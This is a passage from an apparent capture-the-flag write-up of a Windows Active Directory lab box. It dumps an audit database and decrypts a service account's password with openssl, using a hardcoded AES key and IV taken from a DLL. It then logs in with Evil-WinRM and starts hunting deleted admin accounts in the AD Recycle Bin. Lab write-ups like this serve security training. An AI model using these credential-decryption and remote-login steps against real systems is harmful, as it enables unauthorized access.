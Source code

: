 ```
INSERT INTO DeletedUserAudit VALUES(6,'test',replace('Test\nDEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d','\n',char(10)),'CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(7,'deleted',replace('deleted guy\nDEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef','\n',char(10)),'CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin',replace('TempAdmin\nDEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a','\n',char(10)),'CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('Ldap',2);
INSERT INTO sqlite_sequence VALUES('DeletedUserAudit',10);
COMMIT;
```

Looks like `arksvc` uses `CascAudit.exe` to delete users. This appears to corroborate with the `ArkAdRecycleBin.log` seen previously.

Long story short, `CasCrypto.dll` has a `Crypto` class with a `DecryptString` method that decrypts `arksvc`'s password.

{% include image.html image_alt="bf544e91.png" image_src="/ff415060-80fe-4880-94c9-d8a655e01aff/bf544e91.png" %}

{% include image.html image_alt="b2944223.png" image_src="/ff415060-80fe-4880-94c9-d8a655e01aff/b2944223.png" %}

We have all we need to decrypt the password like so.

```
# echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d | openssl enc -aes-128-cbc -d -nosalt -nopad -K $(echo -n c4scadek3y654321 | iconv -t UTF-8 | xxd -p) -iv $(echo -n 1tdyjCbY1Ix49842 | iconv -t UTF-8 | xxd -p); echo
w3lc0meFr31nd
```

We now have `arksvc`'s credential (`arksvc:w3lc0meFr31nd`). `arksvc` is also a member of the **Remote Management Users** group. Let's login with Evil-WinRM.

{% include image.html image_alt="78dfd86f.png" image_src="/ff415060-80fe-4880-94c9-d8a655e01aff/78dfd86f.png" %}

Sweet.

### Active Directory Recycle Bin

The assumption here is that Active Directory Recycle Bin is enabled for this server and that `TempAdmin` has been deleted and placed in the Active Directory Recycle Bin. We have also previously established the fact that `arksvc` is a member of the **AD Recycle Bin** group and should possess the permissions to query deleted objects.

{% include image.html image_alt="192561ed.png" image_src="/ff415060-80fe-4880-94c9-d8a655e01aff/192561ed.png" %}

We can search for deleted objects with the `Get-ADObject` cmdlet like so.
